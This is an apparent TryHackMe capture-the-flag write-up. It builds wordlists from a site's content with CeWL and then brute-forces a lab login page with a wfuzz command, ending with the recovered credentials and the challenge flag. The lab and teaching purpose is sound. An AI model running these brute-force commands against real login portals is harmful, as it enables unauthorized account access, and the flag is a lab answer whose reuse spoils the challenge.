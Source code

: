 # Brute Forcing

We'll be learnig how to use the CeWL custom wordd generator that spiders websites to create word lists based on the site's content. Spidering, in the context of web security and penetration testing, refers to the process of automatically navigating and cataloguing a website's content, often to retrieve the site structure, content, and other relevant details. The additional built in functions in this tool are of great help and as it is actively maintained, it stays relevant. 
What we're looking for is a username and password which we use to login in to the website and fetch the flag. You may know that most users while creating a password generally tend to resort to their names or DOB as passwords. This can be a vague way to try explaining what we'll be doing in the challenge as we'll be using the data avaialable on the website to find the correct username and password combination. We'll create two files storing the usernames and passwords.
On giving a random input, the error message was **"Please enter the correct credentials"**

We'll create a file storing the passwords
- **`cewl -d 2 -m 5 -w passwords.txt http://MACHINE_IP --with-numbers`**

  - **`-d 2`** specfies the tool to spider two links deep
  - **`-m 5`** specifies that the password should be of minimum length 5
  - **`-w passwords.txt`** means to write the output into the **passwords.txt** file
  - **`http://MACHINE_IP`** is our target site
  - **`--with-numbers`** is an extension which appends numbers to words
  On reading out the text file, we can see a whole bunch of possible passwords.

![Screenshot (83)](https://github.com/Wixter07/HARSHITH-JTP-2/assets/150792650/1998da7c-ba7a-492a-bf04-55acac671167)

  Now we'll create the file storing the usernames as
  - **`cewl -d 0 -m 5 -w usernames.txt http://MACHINE_IP/team.php --lowercase`**

    - **`-d 0`** specfies the tool to spider zero links deep
    - **`-m 5`** specifies that the password should be of minimum length 5
    - **`-w usernames.txt`** means to write the output into the **usernames.txt** file
    - **`http://MACHINE_IP`** is our target site
    - **`--lowercase`** is custom extension which stores the output values in lower case
    Same as before, on reading out the text file, we can see a whole bunch of possible usernames.
![Screenshot (84)](https://github.com/Wixter07/HARSHITH-JTP-2/assets/150792650/f47f7e23-2e2a-402c-80a9-6ced5134d2f5)

    Now we'll try out these two files in combination on the website login portal using **wfuzz** tool as
- **` wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://MACHINE_IP/login.php -d "username=FUZZ&password=FUZ2Z"`**
  - **`-z file,usernames.txt`** loads the usernames list.
  - **`-z file,passwords.txt`** uses the password list generated by CeWL.
  - **`-hs "Please enter the correct credentials"`** hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.
  - **`-u http://MACHINE_IP/login.php`** specifies the target site.
  - **`-d "username=FUZZ&password=FUZ2Z"`** provides the POST data format where FUZZ will be replaced by usernames and FUZ2Z by passwords.
![Screenshot (85)](https://github.com/Wixter07/HARSHITH-JTP-2/assets/150792650/2710b7bf-562d-465a-bbb9-e22ef3a5e130)

And then we get the password as **`isaias:Happiness`**

On entering these detail in the login portal, we get the flag.

![Screenshot (86)](https://github.com/Wixter07/HARSHITH-JTP-2/assets/150792650/bb4730c2-c8da-4fcc-bd22-1d18ed2f7d65)

**`The flag- THM{m3rrY4nt4rct1crAft$}`**
